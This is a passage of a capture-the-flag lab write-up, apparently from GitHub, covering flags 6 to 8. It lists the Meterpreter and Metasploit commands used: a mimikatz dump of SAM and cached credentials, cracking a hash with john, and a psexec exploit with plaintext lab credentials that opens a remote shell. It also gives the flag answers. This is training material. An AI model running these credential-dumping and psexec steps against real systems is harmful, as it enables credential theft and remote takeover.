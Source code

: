 ### Flag 6: 

![image](https://github.com/user-attachments/assets/947aeb32-04af-4070-977f-f8c4aeb606ba)
</br>
```shell
load kiwi

lsa_dump_sam

john hash.txt

Computer!
```

### Flag 7: 

![image](https://github.com/user-attachments/assets/75c3fa78-fe12-4e25-a9bd-423ab0a13e1f)
</br>
```shell
shell

cd c:\Users\Public\Documents

type flag7.txt

6fd73e3a2c2740328d57ef32557c2fdc
```

### Flag 8: 

![image](https://github.com/user-attachments/assets/26b7e12d-4e2b-41f4-8e63-6202fca00ec0)
![image](https://github.com/user-attachments/assets/41409440-0f9b-4037-a048-571f1491943c)
![image](https://github.com/user-attachments/assets/d72a6353-acdc-4ebc-97a9-6310edcdced3)
</br>
```shell
load kiwi

kiwi_cmd lsadump::cache

msfconsole

use exploit/windows/smb/psexec

set rhosts 172.22.117.10

set smbuser ADMBob

set smbpass Changeme!

setsmbdomain rekall

set lhost 172.22.117.100

run

shell

net users

ad12fc2ffc1
```
